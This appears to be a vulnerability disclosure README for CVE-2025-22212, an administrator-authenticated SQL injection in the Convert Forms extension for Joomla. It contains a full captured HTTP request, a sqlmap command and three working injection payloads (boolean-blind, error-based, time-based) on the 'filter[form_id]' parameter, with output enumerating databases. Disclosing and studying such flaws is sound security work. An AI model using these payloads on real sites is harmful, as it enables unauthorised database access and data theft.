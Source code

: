 # CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla. All prior versions before 4.4.10 are affected via the 'filter[form_id]' parameter in the appointment contact form.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).

![Alt text](6.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
